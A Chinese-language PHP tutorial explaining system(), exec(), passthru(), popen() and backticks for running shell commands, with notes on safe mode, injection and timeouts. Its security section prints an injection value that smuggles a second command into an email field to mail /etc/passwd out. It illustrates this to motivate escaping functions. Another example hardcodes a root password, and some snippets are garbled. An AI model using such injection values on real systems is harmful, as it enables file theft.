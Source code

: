 
<!-- TOC -->

- [区别：](#区别)
- [是否可以?](#是否可以)
- [前提条件](#前提条件)
- [如何做?](#如何做)
- [1) 用PHP提供的专门函数](#1-用php提供的专门函数)
- [2) 用popen()函数打开进程](#2-用popen函数打开进程)
- [3) 用反撇号(`，也就是键盘上ESC键下面的那个，和~在同一个上面)](#3-用反撇号也就是键盘上esc键下面的那个和在同一个上面)
- [要考虑些什么?](#要考虑些什么)

<!-- /TOC -->
> 详细的介绍了关于PHP exec system passthru系统函数用法与安全以及其它应用功能，有需要的朋友参考一下。区别:system() 输出并返回最后一行shell结果。exec() 不输出结果，返回最后一行shell结果，所有结果详细的介绍了关于PHP exec system passthru系统函数用法与安全以及其它应用功能，有需要的朋友参考一下。

#### 区别： ####

system() 输出并返回最后一行shell结果。

exec() 不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面。

passthru() 只调用命令，把命令的运行结果原样地直接输出到标准输出设备上。

相同点：都可以获得命令执行的状态码


    demo:
    //system('dir');
    // exec ('dir');
    // passthru ('dir');
    // echo `dir`;
PHP作为一种服务器端的脚本语言，象编写简单，或者是复杂的动态网页这样的任务，它完全能够胜任。但事情不总是如此，有时为了实现某个功能，必须借助于操作系统的外部程序(或者称之为命令)，这样可以做到事半功倍。

那么，是否可以在PHP脚本中调用外部命令呢?如果能，如何去做呢?有些什么方面的顾虑呢?相信你看了本文后，肯定能够回答这些问题了。

#### 是否可以? ####

答案是肯定的。PHP和其它的程序设计语言一样，完全可以在程序内调用外部命令，并且是很简单的：只要用一个或几个函数即可。

#### 前提条件 ####

由于PHP基本是用于WEB程序开发的，所以安全性成了人们考虑的一个重要方面。于是PHP的设计者们给PHP加了一个门：安全模式。如果运行在安全模式下，那么PHP脚本中将受到如下四个方面的限制：

> 执行外部命令
> 
> 在打开文件时有些限制
> 
> 连接MySQL数据库
> 
> 基于HTTP的认证

在 安全模式下，只有在特定目录中的外部程序才可以被执行，对其它程序的调用将被拒绝。这个目录可以在php.ini文件中用 safe_mode_exec_dir指令，或在编译PHP是加上--with-exec-dir选项来指定，默认是 /usr/local/php/bin。

如果你调用一个应该可以输出结果的外部命令(意思是PHP脚本没有错误)，得到的却是一片空白，那么很可能你的网管已经把PHP运行在安全模式下了。

#### 如何做? ####

在PHP中调用外部命令，可以用如下三种方法来实现：

#### 1) 用PHP提供的专门函数 ####

PHP提供共了3个专门的执行外部命令的函数：system()，exec()，passthru()。

system()

原型：string system (string command [, int return_var])

system()函数很其它语言中的差不多，它执行给定的命令，输出和返回结果。第二个参数是可选的，用来得到命令执行后的状态码。

例子：

    <?php
	system("/usr/local/bin/webalizer/webalizer");  
    exec()
原型：string exec (string command [, string array [, int return_var]])

exec()函数与system()类似，也执行给定的命令，但不输出结果，而是返回结果的最后一行。虽然它只返回命令结果的最后一行，但用第二个参数array 可以得到完整的结果，方法是把结果逐行追加到array的结尾处。所以如果array不是空的，在调用之前最好用unset()最它清掉。只有指定了第二 个参数时，才可以用第三个参数，用来取得命令执行的状态码。

例子：
    <?php
    exec("/bin/ls -l");
    exec("/bin/ls -l", $res);
    exec("/bin/ls -l", $res, $rc);
	passthru()
原型：void passthru (string command [, int return_var])

passthru ()只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上。所以**passthru()**函数经常用来调用象pbmplus (Unix下的一个处理图片的工具，输出二进制的原始图片的流)这样的程序。同样它也可以得到命令执行的状态码。

例子：

    header("Content-type: image/gif");
    passthru("./ppmtogif hunte.ppm");
    ?>
#### 2) 用popen()函数打开进程 ####

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。

popen()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。在PHP3中，对这种句柄只能做单一 的操作模式，要么写，要么读;从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式(读或写)打开的，否则必须调用pclose()函数来关闭 它。

例子1：

    $fp=popen("/bin/ls -l", "r");
    ?>
例子2(本例来自PHP中国联盟网站http://www.phpx.com/show.php?d=col&i=51)：

    /* PHP中如何增加一个系统用户
    下面是一段例程，增加一个名字为james的用户,
    root密码是 verygood。仅供参考
    */
    $sucommand = "su --login root --command";
    $useradd = "useradd ";
    $rootpasswd = "verygood";
    $user = "james";
    $user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);
    $fp = @popen($user_add,"w");
    @fputs($fp,$rootpasswd);
    @pclose($fp);
    ?>
#### 3) 用反撇号(`，也就是键盘上ESC键下面的那个，和~在同一个上面) ####

这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如：

    $res='/bin/ls -l';
    echo '
    '.$res.'
    ';
    ?>
这个脚本的输出就象：

    hunte.gif
    hunte.ppm
    jpg.htm
    jpg.jpg
    passthru.php
#### 要考虑些什么? ####

**要考虑两个问题：安全性和超时。**

先看**安全性**。比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数(或者从未听说过)，你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样：

    <?php
    system("mail $to < products.txt");
    echo "我们的产品目录已经发送到你的信箱：$to";
    
用这段代码，一般的用户不会产生什么危险，但实际上存在着非常大的安全漏洞。如果有个恶意的用户输入了这样一个EMAIL地址：

    '--bla ; mail someone@domain.com < /etc/passwd ;'
那么这条命令最终变成：

    'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt'
我相信，无论哪个网络管理人员见到这样的命令，都会吓出一身冷汗来。

幸好，PHP为我们提供了两个函数：**EscapeShellCmd**()**和EscapeShellArg**()。**函数EscapeShellCmd把一个字符串** 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号()，重定向(>)和从文件读入 (<)等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数。

再来看看超时问题。如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，**象system**()等函数要等到这个命令运行完才返回(实际上是要等命令的输出结果)，这肯定会引起PHP脚本的超时。解决的办法是 把命令的输出重定向到另外一个文件或流中，如：

    <?php
	system("/usr/local/bin/order_proc > /tmp/null &");

----
@tsingchan    